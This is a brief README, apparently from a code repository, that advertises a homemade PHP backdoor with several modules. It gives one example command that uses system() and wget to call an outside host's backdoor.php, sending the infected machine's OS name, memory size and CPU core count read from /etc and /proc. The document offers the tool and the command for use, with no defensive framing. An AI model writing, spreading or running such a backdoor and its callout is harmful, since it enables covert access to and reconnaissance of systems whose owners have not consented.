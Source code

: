 # Backdoor
A simple yet efficient backdoor in php. Made from scratch by me.
Has different modules for different usage.


Example usage :- system("wget -qO \"/dev/null\" \"http://servername.xyz/backdoor.php?BlackdoorName=Nload&OS=$(cat /etc/*-release | grep NAME=\\\" | head -1 | cut -c 6- | tr \" \" \"-\")&Ram=$(grep MemTotal /proc/meminfo | cut -c 18- | tr \" \" \"-\")&Cores=$(grep -c ^processor /proc/cpuinfo | tr \" \" \"-\")\";")

